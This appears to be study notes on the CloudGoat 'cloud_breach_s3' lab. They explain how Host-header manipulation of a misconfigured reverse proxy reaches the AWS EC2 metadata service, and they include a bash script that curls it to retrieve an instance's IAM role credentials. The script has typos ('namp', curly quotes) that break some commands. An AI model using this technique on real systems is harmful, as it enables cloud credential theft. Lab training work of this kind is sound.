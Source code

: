 
#### IMDSv1

Reverse proxy server
- such a Nginx or Traefik etc
- retrieves resources on behalf of a client/resource from one or more servers.
- the reverse proxy server is set up in a way that anyone can set the host header to call the instance metadata API and obtain the credentials.
- The instance metadata contains data about the EC2 instance that can use to configure or manage the running instance.
- When an HTTP request is made to the proxy server, it contains instructions to the host.
- reverse-proxy or application layer "edge router" forward the requests to appropriate service based on the Host header in HTTP requests.

- A bad actor can manipulate the host header
  - to fetch other data on the proxy server such as the IAM credential.
  - exploit reverse-proxy server with overly permissive configuration
  - to reach internal applications that we can't reach otherwise.
  - get's even more severe in cloud resources because of "Instance Metadata".
    - EC2 instance metadata service (IMDS)
    - Instance metadata is data about your instance that use to configure or manage the running instance.
    - Instance metadata can be accessed at the IP address 169.254.169.254, a link-local address and is valid only from the instance.


```bash
#!/bin/bash
INFILE=~/.aws/credentials
AWS_REGION='us-east-1'


# ------------- 1. deploy the resources for each scenario on AWS
./cloudgoat.py create cloud_breach_s3
# starts with the IP address of an AWS EC2 instance with a misconfigured reverse proxy.
# got the accountID and EC2 IP
EC2IP='34.228.232.48'
# the service on port 80 of the IP address is acting as a reverse-proxy server.
namp 34.228.232.48


# ------------- 2.  use curl to do a HTTP request to the EC2 Instance
# exploit the reverse-proxy server to reach out to EC2 instance metadata service (IMDS).
# using curl HTTP client to make a HTTP request to retrieve metadata
# manipulate the host header
# - add a "Host" header whose value points to IP address of IMDS service.
# - to fetch other data on the proxy server such as the IAM credential associated with the instance running.
# If the reverse-proxy server has overly permissive configuration
# - the request will be forwarded to IMDS service
# - and it will return some metadata related information.
# reveals that the instance is acting as a reverse proxy server.

IPV4=`curl -s http://$EC2IP/latest/meta-data/local-ipv4 -H 'Host:169.254.169.254'`
# 10.10.10.238
# evident that the reverse-proxy server has overly permissive configuration to access AWS EC2 IMDS.

IAMROLENAME=`curl http://$EC2IP/latest/meta-data/iam/security-credentials -H ‘Host: 169.254.169.254’`
# cg-backing-WAF-Role-cgidppobj072co

# Use a curl to get more information about the IAM role.
IAMROLEINFO=`curl http://$EC2IP/latest/meta-data/iam/security-credentials/$IAMROLENAME -H ‘Host: 169.254.169.254’`
```